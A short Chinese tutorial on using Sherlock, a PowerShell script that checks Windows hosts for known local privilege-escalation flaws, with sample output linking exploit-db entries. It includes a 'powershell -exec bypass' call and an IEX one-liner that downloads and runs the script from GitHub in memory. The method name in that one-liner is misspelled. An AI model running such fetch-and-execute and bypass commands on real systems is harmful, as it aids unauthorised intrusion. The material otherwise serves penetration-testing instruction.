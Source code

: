 Sherlock是一个在Windows下用于本地提权的PowerShell脚本。

本地加载脚本

```
Import-Module .\Sherlock.ps1
```

远程记载脚本

```
IEX(New-Object System.Net.Webclient).DownloadingString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
```

发现漏洞

```
Find-AllVulns
```

原理只是发现存在的漏洞，具体漏洞还得下载响应攻击工具。

`Find-AllVulns` 此脚本中的一个函数，发现

```
        Find-MS10015
        Find-MS10092
        Find-MS13053
        Find-MS13081
        Find-MS14058
        Find-MS15051
        Find-MS15078
        Find-MS16016
        Find-MS16032
        Find-MS16034
        Find-MS16135
        Find-CVE20177199
```

```
# 进入 powershell (在win7本地演示)
C:\phpstudy_pro\WWW>powershell -exec bypass
Windows PowerShell
版权所有 (C) 2009 Microsoft Corporation。保留所有权利。

# 导入脚本
PS C:\phpstudy_pro\WWW> Import-Module .\Sherlock.ps1

# 开始检测
PS C:\phpstudy_pro\WWW> Find-AllVulns


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems
```